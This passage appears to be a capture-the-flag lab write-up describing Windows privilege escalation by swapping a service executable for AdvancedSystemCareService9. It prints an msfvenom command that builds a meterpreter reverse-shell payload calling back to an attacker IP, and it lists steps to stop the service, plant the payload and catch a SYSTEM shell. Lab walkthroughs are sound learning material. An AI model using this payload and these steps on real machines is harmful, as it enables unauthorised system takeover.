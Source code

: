 ![image](/assets/img/steel/invoke.png)


The exploit is gonna work like this
- We open a netcat listener on the port 5555. 
- Stop the Service AdvancedSystemCareService9.
- Upload the file Advanced.exe created with msfvenom on the IObit directory.
- Start the Service again.
- The machine will execute Advanced.exe rather than continuing down the path to open the Advanced SystemCare directory. 
- A session will start on our netcat listener and we will be connected as nt authority system.

First : create the Advanced.exe with msfvenom.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.15.91 LPORT=5555 -f exe -o Advanced.exe
```
![image](/assets/img/steel/msfvenom.png)
_the lport that you configure is going the same for your netcat listener_

In your meterpreter session stop the AdvancedSystemCareService9.

![image](/assets/img/steel/scstop.png)
